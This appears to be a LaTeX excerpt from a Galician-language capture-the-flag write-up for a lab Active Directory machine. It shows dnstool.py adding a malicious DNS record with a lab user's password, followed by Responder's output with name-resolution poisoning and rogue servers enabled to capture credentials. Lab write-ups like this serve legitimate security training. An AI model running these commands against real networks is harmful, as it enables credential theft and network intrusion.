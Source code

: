 \documentclass[a4paper]{article}
\newcommand{\ipTarget}{10.10.10.248}
\newcommand{\ipLocal}{10.10.14.12}
\begin{document}
        \begin{lstlisting}[language=Bash, caption=Agregar entrada DNS]
$ python dnstool.py -u 'template.htb\Tiffany.Molina' -p 'NewTemplateCorpUser9876' 
-a add -t A -r weboli -d ¬\ipLocal¬ ¬\ipTarget¬ 
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully\end{lstlisting}
                                                 
Entón agora a esperar co sniffer responder:
        \begin{lstlisting}[language=Bash, caption=Sniffer responder]
$ sudo responder -I tun0 -v
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.1.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [OFF]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Force ESS downgrade        [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.14.12]
    Responder IPv6             [dead:beef:2::100c]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']


\end{lstlisting}
\end{document}
